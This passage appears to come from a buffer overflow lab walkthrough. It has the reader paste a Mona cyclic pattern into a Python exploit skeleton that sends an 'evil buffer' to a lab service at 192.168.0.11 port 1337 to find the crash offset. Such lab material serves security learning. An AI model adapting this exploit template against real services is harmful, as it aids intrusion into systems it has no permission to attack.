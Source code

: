 Open the text file Mona created from our working directory:

![bofprep-mona-pattern](/assets/images/2021-03-08-22-47-15.png)

Copy the ASCII string. Create an exploit script using the Python code provided, and paste our string in to it:

```text
import socket

ip = "192.168.0.11"
port = 1337

prefix = "OVERFLOW1 "
offset = 0 
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3A"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
